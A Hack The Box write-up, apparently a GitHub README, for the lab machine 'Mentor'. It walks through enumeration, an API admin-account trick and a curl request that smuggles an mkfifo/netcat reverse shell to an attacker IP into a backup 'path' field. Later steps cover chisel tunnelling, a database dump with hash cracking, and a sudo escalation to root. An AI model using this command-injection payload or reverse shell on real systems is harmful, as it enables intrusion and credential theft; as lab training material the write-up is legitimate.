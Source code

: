# HTB-Mentor

Hack the Box has released a new machine called Mentor . It's a very easy machine compared to medium level . <br><br> 
The IP of this machine is ``10.129.84.145``. 
![Mentor](https://user-images.githubusercontent.com/114393219/206896209-01c78889-0dd5-4e9f-941c-439e11b20dcb.png)
<br> <br>
Lets get started !!
<br>
I first started with nmap scan by the command ``nmap -T4 -A 10.129.84.145`` , as usual two ports were open port `22` and `80` . <br>
# Nmap Scan
````
└─# nmap -T4 -A 10.129.84.145
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-11 15:07 IST
Nmap scan report for 10.129.84.145
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c73bfc3cf9ceee8b4818d5d1af8ec2bb (ECDSA)
|_  256 4440084c0ecbd4f18e7eeda85c68a4f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://mentorquotes.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=12/11%OT=22%CT=1%CU=35835%PV=Y%DS=2%DC=T%G=Y%TM=6395A5
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=110%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST
OS:11NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)EC
OS:N(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   282.33 ms 10.10.14.1
2   282.43 ms 10.129.84.145

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.03 seconds
````
Then add ``mentorquotes.htb`` to ``/etc/hosts``
<br>
# FOOTHOLD 
## Subdomain
I started subdomain enumeration using fuff : ``ffuf -u "http://mentorquotes.htb" -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -mc all -fc 302`` <br>
<br>
I got ``api.mentorquotes.htb`` and added it to ``/etc/hosts`` . <br>
## Directories 
Now Scan directories in ``api.mentorquotes.htb`` using command : ``ffuf -u "http://api.mentorquotes.htb/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt - mc all -fc 404`` <br><br>
I got this result :
![image](https://user-images.githubusercontent.com/114393219/206897099-faa5d8c4-4a7f-46d1-8ced-633c2a19b7c7.png)
<br><br>
``http://api.mentorquotes.htb/docs`` &  ``http://api.mentorquotes.htb/admin`` are intresting . <br><br>
After visiting ``http://api.mentorquotes.htb/docs`` we found that there is admin(James).
<br><br>
![image](https://user-images.githubusercontent.com/114393219/206897480-72544262-c828-4556-9520-158edf585ea7.png)
<br><br>
Now create a new user with same name as "James" but with different mail . <br><br>
![image](https://user-images.githubusercontent.com/114393219/206898094-9bac2d2b-5edb-41a8-bbe3-60d7756c4466.png)
<br><br>
Then login and get your authorization token .
![image](https://user-images.githubusercontent.com/114393219/206898185-e641818c-c9cf-4556-b76a-0e3516aae577.png)
<br><br>
## Lets get Reverse Shell : 
<br>
Curl this payload to get reverse shell :

````
curl -X 'POST' \
'http://api.mentorquotes.htb/admin/backup' \
-H 'accept: application/json' \
-H 'Content-Type: application/json' \
-H 'Authorization: <your_token>' \
-d '{
"path": "`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f`"
}'
````
Note : Make  sure you have started a netcat listner on your attacker machine using ``nc -lvnp <PORT>``.
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206898547-253e4a25-fbc1-4254-bfac-d46e48a5e751.png)

<br><br> 

And Boom !! We got reverse shell :
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206898618-36ddf815-c678-4b1f-abe9-14a2b17f0f6a.png)
<br><br>

After few research I found intresting file in ``/app/app/db.py`` . <br>
Now cat out the contents on ``db.py`` and we got the DB creds .
![image](https://user-images.githubusercontent.com/114393219/206899466-ef0e0533-b7f5-4d99-8f5e-cf81083ec2a5.png)

<br><br>
## Port Forwarding
Now we have to do port forwarding(postgresql port) so that we can access DB locally on our machine using ``chisel`` .
<br>
By Using Python http server, deliver the chisel binary to our target's `/tmp` folder. <br>
On Attacker Machine (Kali) :
````
./chisel server --port 8888 --reverse
````
On Target : 
````
./chisel client -v <Attacker_IP>:8888 R:5432:172.22.0.1:5432
````
## SSH 
After successfully port forwarding , dump the Postgresql DB using cmd : 
````
pg_dump -h 127.0.0.1 -p 5432 -d mentorquotes_db -U postgres -W
````
password : postgres <br>
<br>
We got the creds :
![image](https://user-images.githubusercontent.com/114393219/206900436-15d0bff6-c954-472b-9a6a-1707964a07fd.png)

<br>

But its a hash(MD5) , Now crack it using ``hashcat`` . James password was unable to crack but we cracked the svc password ``53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani`` .
<br>

Now Let's SSH to ```svc@mentorquotes.htb``` using the creds we got . 
<br><br>
Now we are in as svc user ! & grab the user flag .

![image](https://user-images.githubusercontent.com/114393219/206901084-e004141b-7be2-4308-824c-aee2aa2a9237.png)

## Priv-Esc
I tried `sudo -l` but svc is unable to use sudo on `mentorquotes.htb` . Then using this cmd ``grep -iR pass /etc`` , I found intesting config file i.e ``/etc/snmp/snmpd.conf`` . <br><br>

![image](https://user-images.githubusercontent.com/114393219/206901316-2ff204e0-f677-444a-b8ad-ca9ff6de4eef.png)

We got the James password ``SuperSecurePassword123__`` . Now ``su james`` and enter the password we found in that .conf file . <br>
Now we are user James !! 
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206901688-22095f09-927b-4401-8e31-4363a81e53b3.png)

## Root
In this box getting root is very easy :) . <br>
Just ``sudo /bin/sh`` and now you are root !!
<br><br>

![image](https://user-images.githubusercontent.com/114393219/206902080-92d6fecb-8ea4-4fdd-ad0c-40a66eca82b6.png)

Thank you for reading :) ! Have a nice day !

And If you are having any doubt you can contact me via discord .
